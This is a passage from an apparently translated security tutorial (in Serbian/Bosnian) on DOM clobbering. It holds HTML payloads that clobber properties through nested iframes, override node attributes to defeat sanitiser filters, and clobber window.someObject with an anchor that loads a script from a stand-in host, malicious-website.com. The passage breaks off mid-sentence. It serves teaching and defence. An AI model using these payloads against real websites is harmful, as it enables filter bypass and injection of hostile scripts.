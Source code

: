 ```html
<iframe name=x srcdoc="<a id=y href=controlled></a>"></iframe>
<style>@import 'https://google.com';</style>
<script>alert(x.y)//controlled</script>
```

{% hint style="warning" %}
Stil tag se koristi da bi se **dalo dovoljno vremena iframe-u da se prikaže**. Bez toga ćete dobiti upozorenje **nedefinisano**.
{% endhint %}

Da biste zamijenili dublje atribute, možete koristiti **iframes sa HTML enkodiranjem** na sledeći način:

```html
<iframe name=a srcdoc="<iframe srcdoc='<iframe name=c srcdoc=<a/id=d&amp;amp;#x20;name=e&amp;amp;#x20;href=\controlled&amp;amp;gt;<a&amp;amp;#x20;id=d&amp;amp;gt; name=d>' name=b>"></iframe>
<style>@import 'https://google.com';</style>
<script>
alert(a.b.c.d.e)//controlled
</script>
```

### **Bypassiranje filtera**

Ako filter **petlja** kroz **svojstva** čvora koristeći nešto poput `document.getElementByID('x').attributes`, možete **prebrisati** svojstvo **`.attributes`** i **pokvariti filter**. Ostala DOM svojstva poput **`tagName`**, **`nodeName`** ili **`parentNode`** i druga takođe su **prebrisiva**.

```html
<form id=x></form>
<form id=y>
<input name=nodeName>
</form>
<script>
console.log(document.getElementById('x').nodeName)//FORM
console.log(document.getElementById('y').nodeName)//[object HTMLInputElement]
</script>
```

## **Clobbering `window.someObject`**

U JavaScript-u je često moguće pronaći:

```javascript
var someObject = window.someObject || {};
```

Manipulacija HTML-a na stranici omogućava zamenu `someObject` sa DOM čvorom, potencijalno uvodeći sigurnosne ranjivosti. Na primer, možete zameniti `someObject` sa elementom sidra koji pokazuje na zlonamerni skript:

```html
<a id=someObject href=//malicious-website.com/malicious.js></a>
```

U ranjivom kodu kao što je:
